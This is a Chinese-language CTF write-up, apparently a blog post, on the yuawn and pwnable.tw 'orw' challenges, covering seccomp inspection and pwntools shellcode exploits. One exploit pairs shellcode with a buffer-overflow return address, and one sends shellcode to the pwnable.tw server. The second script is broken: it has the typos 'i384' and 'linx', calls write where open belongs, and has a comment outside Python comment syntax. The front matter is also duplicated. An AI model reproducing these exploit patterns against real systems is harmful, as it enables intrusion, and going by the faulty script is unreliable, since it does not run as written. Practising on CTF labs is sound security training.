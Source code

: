 ```yaml
---
title: pwnable orw & yuawn orw Writes up
published: 2024-08-07
tags: [CTF]
category: Cyber Security
draft: false
image: 'image.png'
---
```



---
title: pwnable orw & yuawn orw Writes up
published: 2024-08-07
tags: [CTF]
category: Cyber Security
draft: false
image: 'image.png'
---


## pwntools Review

設定環境:

``` py
context(arch='i386',os='linux')
```

## 暫存器 Review

|  暫存器   | 位元  |
|  ----  | ----  |
| rax  | 64 |
| eax  | 32 |

## What is orw
利用 open，read and write  這三個 systemcall 去取得 flag

## What is seccomp?
分析程式的 seccomp 狀態，查看哪一些 system call 被禁用

download :
```
sudo apt install gcc ruby-dev
gem install seccomp-tools
```

## 起手式

`seccomp-tools dump <filename>`


## demo yuawn orw (64 bits)

### Recon

file:

![image](https://hackmd.io/_uploads/SJLwfuk5R.png)

r2:

![image](https://hackmd.io/_uploads/r1FOMdy5R.png)

發現 sc 的部分是全域變數，然後他有給你位置，並且下面有一個 I give you bof 是用 gets 去讀，並且大小為 0x10+0x8

seccomp:

![image](https://hackmd.io/_uploads/BkPAGOJqR.png)

### exploit

``` py
from pwn import *

context(arch='amd64',os='linux')

r=process('./orw')
                                                        #利用('rax','rsp')去寫入
r.sendline(asm(shellcraft.open('/flag')+shellcraft.read('rax','rsp',0x100)+shellcraft.write(1,'rsp',0x100)))
                        #利用(1,'rsp',0x100)去寫入
r.sendlineafter(b':)', b'a'*0x18 + p64(0x6010a0))
r.interactive()
```


## demo pwnable orw (32 bits)

labs: https://pwnable.tw/static/chall/orw

### Recon

file: 

![image](https://hackmd.io/_uploads/B1EEY7150.png)

checksec:

![image](https://hackmd.io/_uploads/BJkBFX1qC.png)

exec: 

![image](https://hackmd.io/_uploads/BJOQsQ1q0.png)

seccomp:

![image](https://hackmd.io/_uploads/S1gYoXJ90.png)

disas main:

![image](https://hackmd.io/_uploads/HJR5smJcC.png)


### exploit

``` py

from pwn import *

context(arch='i384',os='linx')

r=remote('chall.pwnable.tw',10001)
                                         #讀利用(eax,esp,大小)
sc=asm(shellcraft.write('/home/orw/flag')+shellcraft.read('eax','ebp',0x100)+shellcraft.write(1,'ebp',0x100)) 寫利用(1,'esp',大小)

r.sendlineafter(':',sc)

r.interactive()
```


## References:

https://kazma.tw/2023/12/10/Yuawn-Pwn1-orw-Writeup/

https://kazma.tw/2024/02/07/Pwnable-tw-orw-Writeup/

https://www.youtube.com/watch?v=U8N6aE-Nq-Q 